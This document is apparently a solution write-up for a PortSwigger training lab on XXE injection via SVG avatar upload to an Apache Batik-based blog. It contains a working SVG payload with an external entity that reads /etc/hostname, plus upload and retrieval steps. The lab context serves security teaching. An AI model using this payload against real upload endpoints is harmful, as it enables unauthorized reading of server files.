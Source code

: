 # Exploiting XXE via image file upload

## Description

[This lab](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload) lets users attach avatars to comments and uses the `Apache Batik` library to process avatar image files.

## Reproduction and proof of concept

1. Create a local SVG image with the following content:

```text
<?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
        <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
```

2. Post a comment on a blog post, and upload this image as an avatar.
3. View the image via the source code of the Blog page with the comment(s). When you view the comment, you should see the contents of the ``/etc/hostname`` file in the image. Use the "Submit solution" button to submit the value of the server hostname.

## Exploitability

An attacker needs to upload an image that displays the contents of the /etc/hostname file after processing, and then use the "Submit solution" button to submit the value of the server hostname.
